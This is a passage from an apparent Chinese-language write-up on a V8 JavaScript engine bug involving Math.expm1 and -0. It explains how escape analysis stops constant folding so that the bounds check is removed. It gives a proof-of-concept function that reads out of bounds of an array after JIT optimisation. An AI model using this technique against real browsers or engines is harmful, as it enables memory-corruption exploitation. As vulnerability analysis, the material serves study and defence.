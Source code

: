 

而为了在simplified lowering阶段消除checkbounds节点，我们应该要使其在前两个阶段（typer和load elimination）不被常量折叠，这时候就要依靠load elimination和simplified lowering两个阶段间的escape analysis阶段，该阶段简单来说就是分析该函数里的对象有没有逃逸（我的理解是没有逃出该函数的作用域），这样就不需要在堆中分配该对象，直接使用栈或者寄存器（这样会更高效），以下是一个简单的例子：

```javascript
function foo(){
    var o = {x:1};
    return o.x;
}
```

会被替换成：

```javascript
function foo(){
    var o_x = 1;
    return o_x;
}
```

所以我们把-0藏在一个对象中，修改后的poc：

```javascript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}


for(var i = 0;i < 30000;i++)
    foo("0");

console.log(foo(-0));
```

运行后会输出一个不是0.1的浮点数，foo也不会因为out-of-bound而被deopt

#### foo("0")

这里有个细节就是我们用的是foo("0");来触发优化，而不是foo(-0)，这样做的原因是，如果只是foo(-0)或者foo(0)，就是纯数字的话，Math.expm1会变成NumberExpm1节点而不是JSCall了，而SameValue会在loadelimination阶段后变成false节点：

